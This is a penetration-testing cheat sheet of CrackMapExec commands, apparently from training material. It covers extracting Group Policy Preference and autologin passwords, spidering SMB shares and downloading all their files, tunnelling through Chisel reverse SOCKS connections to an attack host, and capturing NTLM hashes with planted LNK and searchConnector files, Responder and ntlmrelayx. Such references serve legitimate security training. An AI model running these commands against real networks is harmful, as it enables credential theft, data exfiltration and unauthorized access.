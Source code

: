 ***

### Domain Enumeration

| **Command**                                       | **Description**                                                                                                      |
| ------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| `cme smb <target> -u <u> -p <p> -M gpp_password`  | Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences (GPP).   |
| `cme smb <target> -u <u> -p <p> -M gpp_autologin` | Searches the domain controller for registry.xml to find autologin information and returns the username and password. |

***

### File Operations

| **Command**                                                                                          | **Description**                                                                                                                                         |
| ---------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cme smb <target> -u <u> -p <p> --spider <share_name> --pattern <pattern>`                           | Search in a remote share for a pattern.                                                                                                                 |
| `cme smb <target> -u <u> -p <p> --spider <share_name> --regex <regex>`                               | Search in a remote share using regular expression.                                                                                                      |
| `cme smb <target> -u <u> -p <p> --spider <share_name> --content`                                     | Enable content search. Can be combined with --pattern or --regex.                                                                                       |
| `cme smb <target> -u <u> -p <p> --share <share_name> --get-file <remote_filename> <output_filename>` | Get a remote file from a shared folder.                                                                                                                 |
| `cme smb <target> -u <u> -p <p> --share <share_name> --put-file <local_filename> <remote_filename>`  | Put a local file into a remote location.                                                                                                                |
| `cme smb <target> -u <u> -p <p> -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL`           | Creates a file containing the shares and files information. We can add the option EXCLUDE\_DIR to prevent it from looking into specific shared folders. |
| `cme smb <target> -u <u> -p <p> -M spider_plus -o READ_ONLY=false`                                   | Download all files from all shared folder.                                                                                                              |

***

### Using Proxychains and Chisel

| **Command**                                                                                      | **Description**                                            |
| ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------- |
| `chisel server --reverse`                                                                        | Method #1 - Using our attack host as the chisel server.    |
| `cme smb <target> -u <u> -p <p> -x "C:\Windows\Temp\chisel.exe client 10.10.14.33:8080 R:socks"` | Method #1 - Using the target machine as the Chisel client. |
| `cme smb <target> -u <u> -p <p> -x "C:\Windows\Temp\chisel.exe server --socks5"`                 | Method #2 - Using the target machine as the Chisel server. |
| `chisel client 10.129.204.133:8080 socks`                                                        | Method #2 - Using our attack host as the Chisel client.    |

***

### Stealing Hashes

| **Command**                                                                                                        | **Description**                                                                                                                           |
| ------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------- |
| `cme smb <target> -u <u> -p <p> -M slinky -o SERVER=<YOUR_IP> NAME=<LNK_filename`                                  | Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions. |
| `sudo responder -I tun0`                                                                                           | Start Responder to listen for requests.                                                                                                   |
| `ntlmrelayx.py -t <target> -smb2support --no-http`                                                                 | Relay NTLMv2 to the target machine.                                                                                                       |
| `cme smb <target> -u <u> -p <p> -M slinky -o SERVER=<YOUR_IP> NAME=<LNK_filename CLEAN=YES`                        | Search and delete the LNK file in all shares or the selected shared folder.                                                               |
| `cme smb <target> -u <u> -p <p> -M drop-sc -o URL=\\\\<YOUR_IP>\\secret SHARE=<shared_folder> FILENAME=<filename>` | Creates a .searchConnector-ms with an attribute containing a UNC path to the specified SMB server in the selected shared folder.          |